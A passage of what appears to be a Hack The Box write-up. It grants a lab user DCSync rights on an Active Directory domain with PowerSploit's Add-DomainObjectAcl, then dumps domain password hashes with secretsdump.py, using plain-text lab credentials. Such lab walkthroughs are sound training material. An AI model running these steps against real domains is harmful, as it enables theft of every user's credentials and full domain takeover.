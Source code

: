 ![](attachment/d2eca561d06710ca720de55d8bf44e79.png)
`$pass = ConvertTo-SecureString 'aditya123@' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('HTB\aditya', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync`

Use `git clone https://github.com/PowerShellMafia/PowerSploit -b dev` if the command doesn't work

Now to get the hashes:
`secretsdump.py htb.local/aditya:aditya123@@10.10.10.161`
![](attachment/6956b9c36a48bd39655949c3c9e206ed.png)
Now modifying the powersploit command after googling:
`Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity aditya -Rights DCSync  -Credential $cred`

Then running secretsdump.py for hashes:
`secretsdump.py htb.local/aditya:aditya123@@10.10.10.161`
